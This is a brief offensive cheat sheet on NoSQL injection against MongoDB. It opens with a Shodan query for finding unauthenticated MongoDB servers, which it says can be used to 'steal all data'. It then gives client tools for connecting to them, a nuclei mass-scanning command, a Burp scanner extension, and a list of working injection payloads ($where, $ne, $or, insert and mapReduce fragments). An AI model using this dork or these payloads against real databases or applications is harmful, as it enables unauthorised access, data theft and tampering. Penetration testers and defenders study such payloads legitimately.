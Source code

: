 # NOSQL Injection

MongoDB by default dos not have any credential and we can steal all data with shodan query

```
"MongoDB Server Information" port:27017 -authentication
```

for connecting to MongoDB we can use 2 software&#x20;

```
1- MongoDB Compass (https://www.mongodb.com/try/download/compass)
2- Navicat Premium
```

automatic find vulnerable MongoDB with nuclei:

```
𝙣𝙪𝙘𝙡𝙚𝙞 -l 𝙝𝙤𝙨𝙩𝙨.𝙩𝙭𝙩 -𝙩𝙖𝙜𝙨 𝙢𝙤𝙣𝙜𝙤𝙙𝙗
```

### automation

nosqli burp extension is better than other because checking SSJI&#x20;

```
        - Burp NOSQLI Scanner
        - https://github.com/Charlie-belmer/nosqli
```

### **NoSQL payload** <a href="#blob-path" id="blob-path"></a>

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection" %}

```
true, $where: '1 == 1'
, $where: '1 == 1'
$where: '1 == 1'
', $where: '1 == 1'
1, $where: '1 == 1'
{ $ne: 1 }
', $or: [ {}, { 'a':'a
' } ], $comment:'successful MongoDB injection'
db.injection.insert({success:1});
db.injection.insert({success:1});return 1;db.stores.mapReduce(function() { { emit(1,1
' || 'a'=='a
```
